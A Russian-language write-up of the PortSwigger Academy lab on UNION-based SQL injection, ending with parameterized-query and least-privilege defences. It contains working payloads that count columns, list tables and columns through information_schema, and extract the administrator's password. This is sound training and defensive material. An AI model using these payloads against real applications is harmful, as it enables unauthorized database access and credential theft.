





## Lab: SQL injection attack, listing the database contents on non-Oracle databases
**Платформа:** PortSwigger Web Security Academy
**Категория:** SQL Injection — Examining the Database
**Сложность:** Practitioner
**Дата:** 2025-07-09

---

## TL;DR
Приложение уязвимо к UNION-based SQL-инъекции в параметре `category`.
Через `information_schema` получила список таблиц и столбцов,
извлекла учётные данные всех пользователей и вошла как `administrator`.

---

## Описание уязвимости
`information_schema` — служебная база данных которая есть в MySQL,
PostgreSQL и MSSQL. Содержит метаданные о всех таблицах и столбцах БД.
Через UNION-атаку можно запросить эти метаданные и узнать структуру
всей базы данных — а затем извлечь любые данные.

---
## Разведка

### Шаг 1 — Подтверждаем SQLi и определяем столбцы
В Burp Suite Proxy → HTTP History нашла запрос с параметром `category`.
Отправила в Repeater.

Проверила количество столбцов через ORDER BY:
```
' ORDER BY 1--   → 200 OK
' ORDER BY 2--   → 200 OK
' ORDER BY 3--   → 500 Error
```
Два столбца. Оба строковые:
```
' UNION SELECT 'abc','def'--   → 200 OK
```



---

## Эксплуатация

### Шаг 2 — Получаем список таблиц
```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

В ответе получила длинный список таблиц. Среди них нашла
подозрительную таблицу с пользователями:

```
users_abcdef
```



### Шаг 3 — Получаем список столбцов таблицы
```
' UNION SELECT column_name, NULL FROM information_schema.columns
  WHERE table_name='users_abcdef'--
```

Ответ вернул названия столбцов:
```
email
username_abcdef
password_abcdef
```



### Шаг 4 — Извлекаем учётные данные
```
' UNION SELECT password_abcdef, NULL FROM users_abcdef WHERE username_abcdef = 'administrator'--
```

Получила пароль администратора



### Шаг 5 — Входим как administrator
Использовала полученный пароль на странице логина.



Лаба решена.

---

## Полная цепочка атаки

```
1. Находим точку входа        → параметр category
2. Подтверждаем SQLi          → ' ORDER BY 3-- даёт ошибку
3. Определяем столбцы         → 2 столбца, оба строковые
4. Читаем список таблиц       → information_schema.tables
5. Находим таблицу с юзерами  → users_abcdef
6. Читаем столбцы таблицы     → information_schema.columns
7. Извлекаем данные           → username + password
8. Логинимся                  → administrator
```

---

## Особенности Non-Oracle баз данных

| | MySQL / PostgreSQL / MSSQL | Oracle |
|---|---|---|
| Список таблиц | `information_schema.tables` | `all_tables` |
| Список столбцов | `information_schema.columns` | `all_tab_columns` |
| Комментарий | `--` | `--` |
| FROM обязателен | Нет | Да (`FROM dual`) |

---

## Итог
Через `information_schema` получила полную карту базы данных —
таблицы, столбцы, данные. Это стандартный подход для разведки
при UNION-based SQLi на любой не-Oracle СУБД.

---

## Защита

```python
# Параметризованный запрос — закрывает SQLi полностью:
cursor.execute(
    "SELECT * FROM products WHERE category = %s",
    (category,)
)

# Дополнительно — минимальные привилегии для пользователя БД:
# Пользователь приложения не должен иметь доступ
# к information_schema в продакшне
GRANT SELECT ON products TO app_user;
# Без доступа к другим таблицам — даже при SQLi
# атакующий не сможет прочитать users
```